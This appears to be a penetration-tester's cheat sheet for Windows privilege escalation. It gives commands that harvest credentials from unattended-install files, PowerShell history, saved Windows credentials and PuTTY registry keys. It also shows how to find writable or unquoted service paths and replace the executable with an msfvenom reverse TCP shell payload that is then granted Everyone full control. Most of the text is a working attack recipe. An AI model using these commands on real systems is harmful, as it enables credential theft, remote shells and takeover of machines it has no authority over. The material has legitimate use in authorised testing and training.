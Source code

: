 ## Unattended installation credentials

Check the following files for credentials:
- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\Windows\system32\sysprep.inf`
- `C:\Windows\system32\sysprep\sysprep.xml`

___

## Powershell history

Search for credentials in the Powershell history using:

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

___

## Windows credentials

```
cmdkey /list
```

display a list of saved credentials.

```
runas /savedcred /user:<user> cmd.exe
```

run a command prompt as specific user using saved credentials.

___

## PuTTY credentials

```
reg query HKEY_CURRENT_USER\Software\<user>\PuTTY\Sessions /f "Proxy" /s
```

display ssh credentials from PuTTY.

___

## Tasks and services

```
schtasks
```

display a list of tasks.

```
schtasks /query /tn "<task>" /fo list /v
```

display specific task information.

```
sc query
```

display a list of services.

```
sc qc "<service>"
```

display specific service configuration.

```
icacls <file>
```

check file permission.

_check for writable files or file path without quotes and with spaces, and replace executable with payload._

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f <format> -o <filename>
```

generate payload _(format `exe` or `exe-service`)_.

```
icacls <file> /grant Everyone:F
```

update payload permission.